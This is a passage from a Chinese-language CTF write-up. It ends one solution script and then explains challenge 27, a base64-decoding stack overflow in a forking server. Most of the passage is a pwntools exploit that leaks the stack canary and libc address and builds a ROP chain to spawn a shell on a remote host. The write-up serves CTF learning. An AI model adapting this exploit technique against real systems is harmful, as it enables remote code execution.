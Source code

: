 ```python

p.write('\x00')
p.write('\x00')
p.write('\x00')
p.write('\x00')
p.write('\x00')
p.write('\x00')
p.write('\x00')
p.write('\x00')

p.interactive()
```

##27 - What should I do

逆向发现这道题写入最长输入长度后会导致 base64 decode 继续解码下去，从而溢出栈空间，但是这道题有 canary，好在它是用 `fork()` 执行的，所以 canary 不会改变。覆盖栈空间很容易，难点在于 leak canary 和 libc。要做到这一点就是要精确控制解码后的字符串恰好到 canary 前面终止。

接下来调试了很久， libc 很难 leak，需要嵌套好几层，中间用例如 `=` 这样的字符来终止 base64 decode，使其停留在我们想要的位置。

leak 出来后直接布置栈空间就搞定了。

```python
from pwn import *
context(terminal='zsh')

p = remote('120.55.86.95', 44444)
p.recvuntil('TOKEN=')
p.writeline('d812bc7f1441e782d2fd6c4bf8b07842')

p.recv()
p.writeline('Y')
p.recv()

# Round 1
payload = b64e(b64e(b64e('xxxxxxx')+'=='+b64e(b64e(cyclic(0x23))))+'x')
payload = payload.ljust(161, 'Y')
print len(payload)
p.writeline(payload)
p.recvuntil('xxxxxxx')
libc_start = u64('\x00'+p.recv(5)+'\x00\x00')
print hex(libc_start)
libc_system = libc_start+0x24840
libc_sh = libc_start+0x15aedb
popret = 0x400e93
pop3ret = 0x400E8E

# Round 2
p.recv()
payload = b64e(b64e('A'*0x31)+'='+b64e('B'*0x22))
payload = payload.ljust(161, 'Y')
print len(payload)
p.writeline(payload)
p.recvuntil('===')
cookie = u64('\x00'+p.recvline()[-14:-7])
print hex(cookie)

# Round 3
p.recv()
payload = b64e(b64e(b64e('xxxxxx'+p64(popret)+p64(libc_sh)+p64(libc_system)+'x')+'=='+'BB'+p64(cookie)+'C'*8+p64(pop3ret)+'D'*6)+'x')
payload = payload.ljust(161, 'Y')
print len(payload)
p.writeline(payload)

```